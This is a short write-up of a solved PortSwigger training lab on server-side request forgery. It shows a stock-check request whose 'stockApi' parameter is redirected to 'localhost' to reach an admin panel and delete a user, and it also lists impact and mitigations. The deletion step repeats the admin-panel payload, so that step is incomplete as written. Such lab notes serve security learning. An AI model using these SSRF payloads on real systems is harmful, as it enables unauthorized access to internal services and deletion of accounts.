

# Lab 08: Basic SSRF Against Local Server

**Platform:** PortSwigger Web Security Academy
**Vulnerability:** SSRF - Server-Side Request Forgery
**Difficulty:** Apprentice
**Status:** Solved

## Summary
The stock check feature is vulnerable to SSRF. The `stockApi` parameter can be manipulated to make the server request internal resources like `http://localhost/admin`.

## Vulnerable Request
POST /product/stock
Body: stockApi=stock.welikeshop.net:8080

## Exploitation

**1. Access Admin Panel:**
stockApi=localhost

**2. Delete User carlos:**
stockApi=localhost
Response: `302 Found` - User deleted successfully.

## Proof of Concept

**1. Admin Panel Accessed via SSRF**

**2. User Deletion (302 Found)**

**3. Lab Solved**

## Impact
- Access to internal admin panel
- Unauthorized deletion of users
- Internal network scanning

## Mitigation
- Whitelist allowed domains only
- Block private IP ranges (127.0.0.1, localhost)
- Separate admin interface from public application

## Lab Link
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost
